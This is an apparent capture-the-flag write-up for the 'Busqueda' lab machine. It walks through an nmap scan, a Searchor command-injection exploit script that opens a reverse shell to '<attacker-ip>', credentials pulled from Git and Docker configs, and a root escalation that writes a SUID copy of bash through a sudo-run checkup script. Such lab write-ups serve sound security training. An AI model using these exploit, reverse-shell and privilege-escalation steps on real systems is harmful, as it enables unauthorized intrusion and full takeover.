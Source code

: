 # Busqueda

Busqueda is an Easy Difficulty Linux machine that involves exploiting a command injection vulnerability present in a `Python` module. By leveraging this vulnerability, we gain user-level access to the machine. To escalate privileges to `root`, we discover credentials within a `Git` config file, allowing us to log into a local `Gitea` service. Additionally, we uncover that a system checkup script can be executed with `root` privileges by a specific user. By utilizing this script, we enumerate `Docker` containers that reveal credentials for the `administrator` user\&amp;#039;s `Gitea` account. Further analysis of the system checkup script\&amp;#039;s source code in a `Git` repository reveals a means to exploit a relative path reference, granting us Remote Code Execution (RCE) with `root` privileges.



<figure><img src="../../.gitbook/assets/Busqueda.png" alt=""><figcaption></figcaption></figure>



lets begin with nmap -A 10.10.11.208 :&#x20;

```
nmap -A 10.10.11.208Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-13 10:47 EDT
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 49.80% done; ETC: 10:47 (0:00:13 remaining)
Stats: 0:00:24 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 10:47 (0:00:06 remaining)
Nmap scan report for 10.10.11.208
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_ 256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open http Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.37 seconds

```

after edit /etc/hosts and add as searcher.htb

then visit website

<figure><img src="../../.gitbook/assets/1 (1).png" alt=""><figcaption><p>http://searcher.htb/</p></figcaption></figure>

we notice seachor 2.4.0 version

<figure><img src="../../.gitbook/assets/2 (1).png" alt=""><figcaption></figcaption></figure>

lets find exploit or cve for it

I found cve that RCE to it

{% embed url="https://security.snyk.io/vuln/SNYK-PYTHON-SEARCHOR-3166303" %}

here is automation of exploit

{% embed url="https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection.git" %}

lets make the user shell

run command inside exploit folder

```
./exploit.sh searcher.htb <attacker-ip>
```

> note : by default Run the exploit with default port `9001` on attacker host

if you want specific port

```
./exploit.sh searcher.htb <attacker-ip> <attacker-port>
```

user.txt flag

<figure><img src="../../.gitbook/assets/3 (1).png" alt=""><figcaption></figcaption></figure>

lets return to /var/www/app

and ls -la

here is .git

lets see it

<figure><img src="../../.gitbook/assets/4 (1).png" alt=""><figcaption></figcaption></figure>

here is config file lts see it what does have

<figure><img src="../../.gitbook/assets/5 (1).png" alt=""><figcaption></figcaption></figure>

we found credentials and website

1- credentials cody:jh1usoih2bkjaspwe92 and its same user on system svc but cody in website

2- gitea.searcher.htb (add it to /etc/hosts )

<figure><img src="../../.gitbook/assets/6 (1).png" alt=""><figcaption></figcaption></figure>

lets visit cody just for review

<figure><img src="../../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>

now lets return to our shell to see the sudoers what we can do as sudo

<figure><img src="../../.gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

so we have

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
```

here what we can do with it

<figure><img src="../../.gitbook/assets/9.png" alt=""><figcaption></figcaption></figure>

lets do docker-inspect

```
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq .
```

We found password&#x20;

<figure><img src="../../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>

lets try login in as administrator:yuiu1hoiu4i5ho1uh in gitea

works :)!!

<figure><img src="../../.gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

lets review scripts packege it has root access so from administrator so lets make sudoers as file and make shell with root access

<figure><img src="../../.gitbook/assets/12.png" alt=""><figcaption></figcaption></figure>

permissions as we said

<figure><img src="../../.gitbook/assets/13.png" alt=""><figcaption></figcaption></figure>

```
 echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xcybersoldier\nchmod 4777 /tmp/0xcybersoldier' > full-checkup.sh
```

<figure><img src="../../.gitbook/assets/14.png" alt=""><figcaption></figcaption></figure>

```
sudo python3 /opt/scripts/system-checkup.py full-checkup
[+] Done!
svc@busqueda:/tmp$ ls
ls
0xcybersoldier
full-checkup.sh
snap-private-tmp
svc@busqueda:/$ /tmp/0xcybersoldier -p
/tmp/0xcybersoldier -p
whoami
root
cat /root/root.txt
```

<figure><img src="../../.gitbook/assets/15.png" alt=""><figcaption></figcaption></figure>
